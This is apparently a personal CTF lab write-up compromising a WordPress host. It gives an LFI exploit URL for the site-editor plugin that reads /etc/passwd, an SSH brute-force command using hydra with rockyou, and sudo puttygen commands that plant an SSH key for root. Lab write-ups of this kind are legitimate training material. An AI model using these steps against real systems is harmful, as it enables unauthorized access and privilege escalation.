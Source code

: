 ```yaml
---
sticker: emoji//1f36c
---
```

# ENUMERATION


## OPEN PORTS

![](Pasted%20image%2020241031135702.png)
2 open ports, one is a website and the other is ssh, let's fuzz the website

## FUZZING

![](Pasted%20image%2020241031135726.png)

Seems like a WordPress page, let's take a look at it:


![](Pasted%20image%2020241031135814.png)

First part seems off, let's look at the source code:

![](Pasted%20image%2020241031135908.png)

Nothing too weird, let's save it in case we need it further, now, let's take a look at 
`wp-login.php`:

![](Pasted%20image%2020241031140023.png)

We need to add `asucar.dl` to `/etc/hosts`:

![](Pasted%20image%2020241031140104.png)


Knowing that the site uses WordPress, let's use `wpscan` to enumerate the website:


```ad-hint

##### USED COMMAND

`wpscan --url http://asucar.dl/ --random-user-agent`

##### OUTPUT

[+] URL: http://asucar.dl/ [172.17.0.2]
[+] Started: Thu Oct 31 19:12:55 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.59 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://asucar.dl/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://asucar.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://asucar.dl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://asucar.dl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5.3 identified (Insecure, released on 2024-05-07).
 | Found By: Rss Generator (Passive Detection)
 |  - http://asucar.dl/index.php/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>
 |  - http://asucar.dl/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://asucar.dl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://asucar.dl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | [!] Directory listing is enabled
 | Style URL: http://asucar.dl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://asucar.dl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | Last Updated: 2017-05-02T23:34:00.000Z
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 


```

So, important info would be the following:

```ad-important

1. Apache/2.4.59 server(DEBIAN)
2. XML-RPC enabled and directory listing enabled for `http://asucar.dl/wp-content/uploads`
3. Site uses wordpress 6.5.3  with the `twentytwentyfour` theme.
4. `site-editor` plugin not updated running version 1.1
```


# EXPLOITATION


So, once we've enumerated all the info in the WordPress website, let's begin with exploitation, first, let's use `searchsploit` to lookup any exploit regarding that site editor version:

![](Pasted%20image%2020241031142025.png)

Nice, we got a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]]regarding this version, let's take a look at the exploit:

![](Pasted%20image%2020241031142212.png)

So, the usage would be:

```ad-important

# USAGE

`http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

# asucar.dl exploitation:

`http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

```


Let's exploit it:

![](Pasted%20image%2020241031142325.png)

Nice, we were able to execute the [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]], we found user `curiosito`

Let's use hydra and try to bruteforce the ssh login:


```ad-hint

##### USED COMMAND

`hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

##### OUTPUT

![](Pasted%20image%2020241031142628.png)


```

Simple password, seems like the user didn't have that much security, let's log in to ssh:

![](Pasted%20image%2020241031142733.png)

Nice, we can begin with PRIVESC




# PRIVILEGE ESCALATION



## SUDO -L

![](Pasted%20image%2020241031142756.png)

We can run `puttygen`, `puttygen` is used to generate ssh keys, let's generate one for root user:

```ad-hint

##### USED


`puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked`

`puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys`

`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/hacked
`
`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/authorized_keys -O public-openssh`

`ssh -i /home/curiosito/.ssh/hacked root@localhost`


##### OUTPUT

![](Pasted%20image%2020241031143301.png)


```



And that would be it for this CTF!

